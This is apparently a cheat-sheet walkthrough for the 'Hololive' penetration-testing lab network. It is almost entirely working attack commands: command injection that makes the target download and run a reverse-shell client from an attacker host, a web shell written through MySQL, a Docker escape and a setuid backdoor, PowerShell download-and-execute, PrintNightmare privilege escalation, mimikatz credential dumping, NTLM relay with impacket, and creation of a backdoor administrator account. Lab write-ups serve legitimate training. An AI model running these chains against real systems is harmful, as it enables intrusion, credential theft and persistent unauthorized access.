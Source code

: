 # Hololive

This isn't so much a walkthrough as a sort of cheat sheet to plow through the machines. Instead of covenant, sshuttle or chisel I did all pivoting/forwarding using https://github.com/NHAS/reverse_ssh, which allowed me to treat each compromised machine as sort of a ssh server for which I had the private key using my attack box, which ran the server, as a jump host.

I also ran a webserver on port 1234 from the reverse ssh bin directory, to allow client binaries to be pulled.

## First machine

You need to log in over web first with the creds you can gain from file inclusion on dev.holo.live to admin.holo.live. Then the below will download the client and run it.

```
curl -H "Host: admin.holo.live" -H "Cookie: PHPSESSID=r77viip9g6kk79uharpdu94suq" "http://10.200.107.33/dashboard.php?cmd=curl+10.50.103.246%3a1234/client+>+/tmp/client+%26%26+chmod+%2bx+/tmp/client+%26%26+/tmp/client+10.50.103.246%3a3232"
```

## Escaping docker

The creds for the database are in db_connect.php.

```
mysql -u admin -h 192.168.100.1 -p
select '<?php system($_GET[1]) ?>' into outfile '/var/www/html/c.php';
curl "192.168.100.1:8080/c.php?1=curl+10.50.103.246%3a1234/client+>+/tmp/client+%26%26+chmod+%2bx+/tmp/client+%26%26+/tmp/client+10.50.103.246%3a3232"
```

## Privesc

```
/usr/bin/docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt sh
wget 10.50.103.246:1234/client -O /home/client && chmod 4555 /home/client
```

Then docker can be exited and the following run to get a root connection: `/home/client 10.50.103.246:3232`

## First windows machine

Reset gurags password to get access to the upload form. This can be done by requesting a reset, then passing the token that the reset responds with in the querystring.

Once done, upload a simple-php-shell.php that executes off cmd.

```
curl "http://10.200.107.31/images/simple-php-shell.php?cmd=powershell+%22%28New-Object+System.Net.WebClient%29.Downloadfile%28%27http%3A%2F%2F10.50.103.246%3A1234%2Fclient.exe%27%2C%27client.exe%27%29%22"
curl "http://10.200.107.31/images/simple-php-shell.php?cmd=client.exe+10.50.103.246%3A3232"
```

## Second windows machine, PC-FILESRV01

Set up a socks proxy on the attack box with  `ssh -ND 9050 -J localhost:3232 <id>`. Then install `rdesktop` and use it with proxychains: `proxychains rdesktop 10.200.107.35`.

The username is `HOLOLIVE/watamet`, with the password dumped from the previous machine using mimikatz.

Once you have a desktop, open powershell, navigate to `c:\windows\tasks`, and run:

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.50.103.246:1234/client.exe','client.exe')"
./client.exe 10.50.103.246:3232
```

## Privesc

The scheduled task approach seems broken. Instead use print nightmare.

```
scp -J 34.255.196.28:3232 .\CVE-2021-1675.ps1 bb73f51ee27097306880d119ab9cdc230ca258a2:c:\\windows\\Tasks\\cve.ps1
Import-Module ./cve.ps1
Invoke-Nightmare
runas /user:adm1n "c:\\windows\\tasks\\client.exe 10.50.103.246:3232"
```

## Final attack - ntlm setup

Ensure smb is not running on PC-FILESRV by running the following from a command prompt:

```
sc stop netlogon
sc stop lanmanserver
sc config lanmanserver start= disabled
sc stop lanmanworkstation
sc config lanmanworkstation start= disabled
shutdown -r
```

Note after shutdown you will need to re-establish connections, i.e. via rdesktop

Kill the service running on port 80 on the attackbox. It can be found with `netstat -tulpn`.

Install some prereqs and get the right version of impacket:

```
apt install krb5-user cifs-utils
wget https://github.com/SecureAuthCorp/impacket/releases/download/impacket_0_9_22/impacket-0.9.22.tar.gz
tar -xf impacket-0.9.22.tar.gz
cd impacket-0.9.22
python3 -m pip install .
```

Setup a socks proxy to the target machine so ntlm relay will be able to attack the DC:

```
ssh -J 34.244.39.187:3232 -ND 172.22.176.1:9050 f9ab0daa2f97e94130d8c74a56ad9e055b3461ae
proxychains ntlmrelayx.py -t smb://10.200.107.30 -smb2support -socks
```

Set up a reverse port forward to capture smb packets:

```
ssh -NR 0.0.0.0:445:localhost:445 -J localhost:3232 bc930adddb17e253edfe31ed958c9e435ad31df3
```

## Accesing the DC

Once the ntlm relay establishes a socks proxy (you can check with the command `socks`) smbexec against this proxy allows rce.

First, setup a new socks proxy (possibly using a different machine, as I did):

```
socks4 <attackbox> 1080
```

Then use impacket's smbexec to get a very limited shell:

```
proxychains smbexec.py HOLOLIVE/SRV-ADMIN@10.200.114.30 -no-pass
```

Add a new admin user:

```
net user user1 pass123! /add
net localgroup Administrators /add user1
net localgroup "Remote Desktop Users" /add user1
```

Then use proxychains and rdesktop to login: `proxychains rdesktop 10.200.107.30`. Username will be `HOLOLIVE\user1`
